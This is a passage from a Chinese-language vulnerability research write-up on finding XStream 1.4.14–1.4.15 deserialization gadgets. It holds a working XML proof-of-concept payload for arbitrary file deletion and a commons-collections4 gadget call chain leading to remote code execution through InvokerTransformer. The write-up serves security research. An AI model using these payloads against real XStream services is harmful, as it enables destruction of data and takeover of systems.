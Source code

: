 ##### 任意文件删除

忘记保存结果了。

poc

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
                            <tempFile>D:\data\1.txt</tempFile>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

##### RCE

基于commons-collections4。发现了如下调用链

```
com/sun/xml/internal/bind/v2/runtime/unmarshaller/Base64Data.get()[B (0)
  com/sun/xml/internal/ws/encoding/MIMEPartStreamingDataHandler$StreamingDataSource.getInputStream()Ljava/io/InputStream; (0)
  com/sun/xml/internal/org/jvnet/mimepull/MIMEPart.read()Ljava/io/InputStream; (0)
  com/sun/xml/internal/org/jvnet/mimepull/DataHead.read()Ljava/io/InputStream; (0)
  com/sun/xml/internal/org/jvnet/mimepull/MIMEMessage.makeProgress()Z (0)
  org/apache/commons/collections4/iterators/ObjectGraphIterator.hasNext()Z (0)
  org/apache/commons/collections4/iterators/ObjectGraphIterator.updateCurrentIterator()V (0)
  org/apache/commons/collections4/iterators/ObjectGraphIterator.findNextByIterator(Ljava/util/Iterator;)V (0)
  org/apache/commons/collections4/functors/InvokerTransformer.transform(Ljava/lang/Object;)Ljava/lang/Object; (0)
  java/lang/reflect/Method.invoke(Ljava/lang/Object;[Ljava/lang/Object;)Ljava/lang/Object; (0)
```

这条链发现是一个熟悉的老面孔。在分析到ObjectGraphIterator.updateCurrentIterator方法时，发现没有必要走findNextByIterator分支。可以直接调用到transform函数。

![image-20210119114005449](XStream 1.4.14-14.15 Gadget挖掘过程分享.assets/image-20210119114005449.png)
